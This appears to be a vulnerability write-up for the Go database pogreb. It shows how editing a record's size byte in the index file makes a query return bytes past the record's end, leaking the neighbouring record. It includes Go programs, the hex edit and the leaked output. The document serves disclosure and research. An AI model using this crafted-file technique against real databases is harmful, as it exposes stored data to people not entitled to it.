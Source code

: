 # Record Leaking

So this document describes the process of how you can leak records from the database. What this involves is this. By using the input database file as an attack surface, you can craft malicous records, with size values that extend past the end of the record. Then when the record gets queried, it will return data past the end of the record, thus leaking information.

## Files

Here are the go files which we use:

```
$	cat insert.go 
package main

import (
	"log"

	"pogreb"
)

func main() {
    db, err := pogreb.Open("fighters.z", nil)

    db.Put([]byte("vegeta"), []byte("final_flash"))
    db.Put([]byte("hit"), []byte("time_skip"))
    db.Put([]byte("goku"), []byte("kamehameha"))

    if err != nil {
        log.Fatal(err)
        return
    }	

    defer db.Close()
}
$	cat select.go 
package main

import (
	"log"

	"pogreb"
)

func main() {
    db, err := pogreb.Open("fighters.z", nil)

    val, er1 := db.Get([]byte("vegeta"))

    if err != nil {
        log.Fatal(err)
        return
    }	

    if er1 != nil {
        log.Fatal(err)
        return
    }

    log.Printf("%s", val)

    defer db.Close()
}
```

## Process

So we start off with creating the database, with three records inserted:

```
$	go run insert.go
```

We can see that we can query it just fine like this:

```
$	go run select.go 
2022/03/20 20:03:49 final_flash
```

Next up we will edit the record sizes used, that are stored in the index file. Now this is also stored in the records file, however from what I've seen those values don't matter for this:

```
$	ghex fighters.z/main.pix
```

We will edit the record, and expand the size value from `0x0B` to `0x2B`. Now the slot (I think it's called slot, it might be wrong) begins at `0x200`. We will be editing the size byte at `0x209` specifically from `0x0B` to `0x2B`

```
Slot Before Edit:
F2 BE 56 40 00 00 06 00 0B 00 00 00 00 02 00 00

Slot After Edit:
F2 BE 56 40 00 00 06 00 2B 00 00 00 00 02 00 00
```

Here is what the actual file looks like before the edit (hashses might be different, since a different DB was used):

![Before Edit](before_edit.png)

After the edit:

![After Edit](after_edit.png)

Or just copy the backup file I had:

```
$	rm -rf fighters.z/
$	mkdir fighters.z
$	cp -avr overwritten-fighters.z/* fighters.z/
'overwritten-fighters.z/00000-1.psg' -> 'fighters.z/00000-1.psg'
'overwritten-fighters.z/00000-1.psg.pmt' -> 'fighters.z/00000-1.psg.pmt'
'overwritten-fighters.z/db.pmt' -> 'fighters.z/db.pmt'
'overwritten-fighters.z/index.pmt' -> 'fighters.z/index.pmt'
'overwritten-fighters.z/main.pix' -> 'fighters.z/main.pix'
'overwritten-fighters.z/overflow.pix' -> 'fighters.z/overflow.pix'
```

Now when we query it, we see data gets leaked (the next record, with `hit` as the key, and `time_skip` is the value):

```
$	go run select.go 
2022/03/20 20:12:36 final_flash�Դ�	hittime_skip��A

```
